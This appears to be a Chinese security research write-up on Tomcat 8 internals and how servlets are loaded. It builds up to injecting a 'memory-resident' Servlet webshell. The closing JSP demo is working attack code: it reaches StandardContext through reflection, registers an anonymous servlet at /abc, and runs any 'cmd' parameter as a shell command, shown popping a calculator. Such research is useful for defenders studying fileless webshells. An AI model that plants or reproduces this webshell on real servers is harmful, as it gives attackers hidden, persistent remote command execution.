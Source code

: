 # Tomcat-Servlet型内存马

<center>@Y4tacker</center>

这一篇是在tomcat8的版本下，进行的调试

## 简单配置一个Servlet

在web.xml添加，这里我们将load-on-startup值设置为1，原因是为了便于简化调试的过程，在每个Servlet的启动顺序在web.xml中，如果没有声明 load-on-startup 属性（默认为-1），则该Servlet不会被动态添加到容器，这一点比较重要

```xml
<servlet-mapping>
        <servlet-name>ExportServlet</servlet-name>
        <url-pattern>/export</url-pattern>
    </servlet-mapping>
    <servlet>
        <servlet-name>TestServlet</servlet-name>
        <servlet-class>com.jbxz.TestServlet</servlet-class>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

接下来随便写一个Servlet

```Java
public class TestServlet extends HttpServlet {
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        PrintWriter writer = response.getWriter();
        writer.println("hello");
    }
}

```

## 断点调试

在org.apache.catalina.core.StandardContext#loadServlet下断点看看怎么加载一个servlet的我们才能写内存马

先回溯到`org/apache/catalina/core/StandardContext.java`，虽然没啥多余的意义，但是我们在这里看到了确实是先加载完Listener和Filter之后，才装载Servlet

![](img/1.png)



前面已经完成了将所有 servlet 添加到 context 的 children 中，this.findChildren()即把所有Wapper（负责管理Servlet）传入loadOnStartup()中处理，可想而知loadOnStartup()就是负责动态添加Servlet的一个函数

可以看到下面图中首先获取Context下所有的Wapper类，并获取到每个Servlet的启动顺序，选出 >= 0 的项加载到一个存放Wapper的list中

![](img/2.png)

在每个Servlet的启动顺序在web.xml中，如果没有声明 load-on-startup 属性（默认为-1），则该Servlet不会被动态添加到容器：

然后对每个wapper进行装载![](img/3.png)

很明显在第一行，我们可以看到这里加载servlet，同时这里注意下小知识点，Java的synchronized是Java中的关键字，被Java原生支持，是一种最基本的同步锁，它可以帮助我们解决线程冲突

![](img/8.png)

在这里通过获取servletClass来装载servlet

![](img/9.png)

装载所有的 Servlet 之后，就会根据具体请求进行初始化、调用、销毁一系列操作： 

```
装载：启动服务器时加载Servlet的实例

初始化：web服务器启动时或web服务器接收到请求时，或者两者之间的某个时刻启动。初始化工作有init()方法负责执行完成

调用：即每次调用Servlet的service()，从第一次到以后的多次访问，都是只是调用doGet()或doPost()方法（doGet、doPost内部实现，具体参照HttpServlet类service()的重写）

销毁：停止服务器时调用destroy()方法，销毁实例
```

因此一个很重要的就是之前的StandardWrapper

还记得之前的findChildren()么，一个child对应一个封装了Servlet的StandardWrapper对象，所以我们需要去构造一个wrapper

接下来我们一步一步往上思考，这样才能逐渐接近真相，接下来我们来思考，这个wrapper又是从哪里取得的呢，没错就是findChildren()遍历的时候得到的，很容易我们就能找到添加的函数

`org.apache.catalina.core.StandardContext#addChild`其调用`super.addChild(child);`也就是`org.apache.catalina.core.ContainerBase#addChild`![](img/10.png)

这个父类也是通过调用`addChildInternal`，在这里会注册这个Servlet，这里不多讲有兴趣可以进一步跟入![](img/11.png)

之后我们再次回到`org.apache.catalina.core.StandardContext#addChild`

这里很重要哦，由于我们是通过访问jsp文件所以这里也是要执行的，只是调试的时候不会有

![](img/12.png)

## 动手实现一个Servlet型号=内存马

通过上面的步骤，所以Servlet型内存Webshell的主要步骤如下：

- 创建恶意Servlet
- 用Wrapper对其进行封装
- 添加封装后的恶意Wrapper到StandardContext的children当中
- 添加ServletMapping将访问的URL和Servlet进行绑定

## demo



```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.PrintWriter" %>
<%!
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stdcontext = (StandardContext) req.getContext();
%>
<%
    Wrapper newWrapper = stdcontext.createWrapper();
    String name = servlet.getClass().getSimpleName();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
%>
<%
    stdcontext.addChild(newWrapper);
    stdcontext.addServletMappingDecoded("/abc", name);
%>
```

## 测试

先访问jsp注入servlet内存马

![](img/6.png)

接下来访问路由成功弹出计算器

![](img/7.png)
